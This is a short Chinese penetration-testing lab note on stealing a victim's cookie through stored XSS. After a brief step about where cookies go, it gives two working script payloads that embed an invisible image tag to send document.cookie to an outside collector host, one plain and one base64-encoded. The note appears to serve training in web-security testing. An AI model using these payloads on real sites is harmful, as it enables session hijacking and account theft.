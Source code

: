 ```yaml
---
title: XSS实验
index: true
icon: x
isOriginal : true
date: 2023-02-10
order: 3
category:
  - 渗透测试
tag:
  - 渗透测试
  - XSS实验
---
```

# XSS实验

## 通过存储型XSS获取被攻击者的cookie

1. 首先，搞清楚原理，cookie在哪里？要发到那里？利用什么发？​![3165839-20230505102219883-856345275](assets/3165839-20230505102219883-856345275-20240912175627-uhcytdn.png)​

2. 在web server 端构造如下payload

    ```bash
    payload1（不进行编码）：<script>document.write('<img src="http://47.113.187.x:91/cookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');</script>

    payload2（base64编码）：<script>document.write('<img src="http://192.168.43.18/xssGetCookie/getcookie.php?cookie='+window.btoa(unescape(encodeURIComponent(escape(document.cookie))))+'">');</script>
    ```
